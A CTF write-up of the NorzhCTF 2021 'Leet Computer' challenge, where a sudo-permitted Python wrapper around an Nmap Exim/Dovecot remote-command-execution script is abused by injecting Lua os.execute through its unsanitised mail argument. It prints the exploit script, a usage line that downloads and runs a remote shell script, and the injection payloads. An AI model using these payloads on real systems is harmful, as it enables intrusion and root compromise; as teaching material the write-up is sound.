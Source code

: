 ```yaml
---
year: 2021
month: 05
day: 24
---
```

# NorzhCTF 2021 - Leet Computer

NorzhCTF was a fun two day CTF which I competed in with the Digital Overdose team. This writeup is about how I solved the `Leet Computer` challenge.

## The Challenge

> One of the attacker is still in the airport hall, and it seems that he is still connected to the airport wifi ! Get a root shell on its machine to continue your investigation. This challenge will give you access to another network.
> 
> \- by Masterfox

This challenge was the second part of a challenge, and from the first challenge we already had a shell on the 'attacker's machine.

## Tl;dr

```sh
./mail_scan.py --ip '010.001.001.001' --mail $'"\nos.execute("cat /root/flag") -- '
```

## How we solved it

For this CTF I was on the Digital Overdose CTF team and my one of my teammates had completed the previous challenge. I was looking around the machine for any obviously exploitable things but I couldn't find much at all. One of my teammates noticed that the user (e11i0t) already had sudo. They ran `sudo -l` and found that the user could only run one file with sudo called `mail_scan.py`. `sudo -l` is quite a useful command that I didn't know about before and I don't think I could have completed the challenge without my teammate introducing it to me (thanks [@revdev1337](https://twitter.com/revdev1337 "Twitter: @revdev1337")). Below is the contents of `mail_scan.py`.

```python
#!/usr/bin/env python3
#coding: utf-8

import argparse
from tempfile import NamedTemporaryFile
from os import system
import re

TEMPLATE_NSE = """
description = [[
Attempts to exploit a remote command execution vulnerability in misconfigured Dovecot/Exim mail servers.

It is important to note that the mail server will not return the output of the command. The mail server
also wont allow space characters but they can be replaced with "${{IFS}}". Commands can also be
concatenated with "``". The script takes care of the conversion automatically.

References:
* https://www.redteam-pentesting.de/en/advisories/rt-sa-2013-001/-exim-with-dovecot-typical-misconfiguration-leads-to-remote-command-execution
* http://immunityproducts.blogspot.mx/2013/05/how-common-is-common-exim-and-dovecot.html
* CVE not available yet
]]

---
-- @usage nmap -sV --script smtp-dovecot-exim-exec --script-args smtp-dovecot-exim-exec.cmd="uname -a" <target>
-- @usage nmap -p586 --script smtp-dovecot-exim-exec --script-args smtp-dovecot-exim-exec.cmd="wget -O /tmp/p example.com/test.sh;bash /tmp/p" <target>
--
-- @output
-- PORT    STATE SERVICE REASON
-- 465/tcp open  smtps   syn-ack
-- |_smtp-dovecot-exim-exec: Malicious payload delivered:250 OK id=XXX
--
-- @args smtp-dovecot-exim-exec.cmd Command to execute. Separate commands with ";".
-- @args smtp-dovecot-exim-exec.auth Authentication scheme (Optional).
-- @args smtp-dovecot-exim-exec.user Authentication username (Optional).
-- @args smtp-dovecot-exim-exec.pwd Authentication password (Optional).
-- @args smtp-dovecot-exim-exec.from Email address to use in the FROM field. Default: nmap+domain. (Optional).
-- @args smtp-dovecot-exim-exec.to Email address to use in the TO field. Default: nmap@mailinator.com
-- @args smtp-dovecot-exim-exec.timeout Timeout value. Default: 8000. (Optional)
-- @args smtp-dovecot-exim-exec.domain Domain name to use. It attempts to set this field automatically. (Optional)
---

author = "Paulino Calderon <calderon@websec.mx>"
license = "Same as Nmap--See http://nmap.org/book/man-legal.html"
categories = {{"exploit"}}

local smtp = require "smtp"
local shortport = require "shortport"
local stdnse = require "stdnse"

portrule = shortport.port_or_service({{25, 465, 587}},
                {{"smtp", "smtps", "submission"}})


action = function(host, port)
  local cmd = stdnse.get_script_args(SCRIPT_NAME..".cmd") or "uname"
  --Prepare payload
  cmd = string.gsub(cmd, " ", "${{IFS}}")
  cmd = string.gsub(cmd, ";", "``")

  local user = stdnse.get_script_args(SCRIPT_NAME..".user") or nil
  local pwd = stdnse.get_script_args(SCRIPT_NAME..".pwd") or nil
  local from = stdnse.get_script_args(SCRIPT_NAME..".from") or "nmap@"..smtp.get_domain(host)
  local to = "{mail_address}"
  local conn_timeout = stdnse.get_script_args(SCRIPT_NAME..".timeout") or 8000
  local smtp_domain = stdnse.get_script_args(SCRIPT_NAME..".domain") or smtp.get_domain(host)

  local smtp_opts = {{
    ssl = true, timeout = conn_timeout, recv_before = true, lines = 1
  }}
  local smtp_conn = smtp.connect(host, port, smtp_opts)

  local status, resp = smtp.ehlo(smtp_conn, smtp_domain)
  local auth_mech = stdnse.get_script_args(SCRIPT_NAME..".auth") or smtp.get_auth_mech(resp)
  if type(auth_mech) == "string" then
    auth_mech = {{ auth_mech }}
  end

  if (user and pwd) then
    status = false
    stdnse.print_debug(1, "%s:Mail server requires authentication.", SCRIPT_NAME)
    for i, mech in ipairs(auth_mech) do
      stdnse.print_debug(1, "Trying to authenticate using the method:%s", mech)
      status, resp = smtp.login(smtp_conn, user, pwd, mech)
      if status then
        break
      end
    end
    if not(status) then
      stdnse.print_debug(1, "%s:Authentication failed using user '%s' and password '%s'", SCRIPT_NAME, user, pwd)
      return nil
    end
  end

  --Sends MAIL cmd and injects malicious payload
  local from_frags =  stdnse.strsplit("@", from)
  local malicious_from_field = from_frags[1].."`"..cmd.."`@"..from_frags[2]
  stdnse.print_debug(1, "%s:Setting malicious MAIL FROM field to:%s", SCRIPT_NAME, malicious_from_field)
  status, resp = smtp.mail(smtp_conn, malicious_from_field)
  if not(status) then
    stdnse.print_debug(1, "%s:Payload failed:%s", SCRIPT_NAME, resp)
    return nil
  end

  --Sets recipient
  status, resp = smtp.recipient(smtp_conn, to)
  if not(status) then
    stdnse.print_debug(1, "%s:Cannot set recipient:%s", SCRIPT_NAME, resp)
    return nil
  end

  --Sets data and deliver email
  status, resp = smtp.datasend(smtp_conn, "nse")
  if status then
    return string.format("Malicious payload delivered:%s", resp)
  else
    stdnse.print_debug(1, "%s:Payload could not be delivered:%s", SCRIPT_NAME, resp)
  end
  return nil
 end
"""

parser = argparse.ArgumentParser()
parser.add_argument('--ip', required=True, help='IP of the Dovecot to attacc')
parser.add_argument('--mail', required=True, help='Mail address to check')
args = parser.parse_args()

# Arguments validation
ipregex = re.compile('^([0-9]{3}\.){3}[0-9]{3}$')
if not ipregex.match(args.ip):
  print("Error: IP argument is invalid")
  exit(1)

f = NamedTemporaryFile(suffix=".nse")
with open(f.name, "w") as tmp_file:
    tmp_file.write(TEMPLATE_NSE.format(mail_address=args.mail))
system("nmap --script={} '{}'".format(tmp_file.name, args.ip))
```

I read through the code and figured that it was creating an nmap script, saving it to a temp file and running it 🚨 with user supplied input 🚨.

The program took two parameters; ip, and mail. First I checked the ip regex (as the ip was inserted straight into a shell command) and I thought I might be able to get around the check by including a newline in the ip address, however this didn't work as the multiline option was not specified in the regex and therefore the `^` and `$` were the start and end of the string not the line. The payload I tried is below;

```sh
# the regex is a bit weird so the components of the ip all have to be three digits
sudo ./mail_scan.py --ip $'010.001.001.001\n; echo hi' --mail 'blah'
```

Circumventing the regex didn't work however I could verify that inserting a newline into the argument had worked.

Next I looked at how `args.mail` was being used and found that it was getting inserted straight into the nmap script with no sanitisation. I tried injecting a quotation mark into the mail parameter and it did indeed throw an error when running the nmap script.

Nmap scripts are written in lua so I just injected a call to `os.execute` to read the flag. This means that if nmap finds an open mail port we get the flag, all I had to do now was point it at a server with a mail port open.

```sh
./mail_scan.py --ip '010.001.001.001' --mail $'"\nos.execute("cat /root/flag") -- '
```

And there you go, we have the flag; `NORZH{e11i0t_1s_s0_1337!!}`

## What I learnt

1. `sudo -l` is really useful for finding what commands a user can run as root
2. it is trivial to add newlines to command line arguments
3. DONT EVER USE UNSANITISED USER INPUT

## Conclusion

This challenge was a nice confidence boost after working away at 3 other challenges and not being able to solve any of them.

Overall NorzhCTF was a very unique competition and I found the hackquest style quite interesting, however I still prefer jeopardy style CTFs for now because they are more beginner friendly.
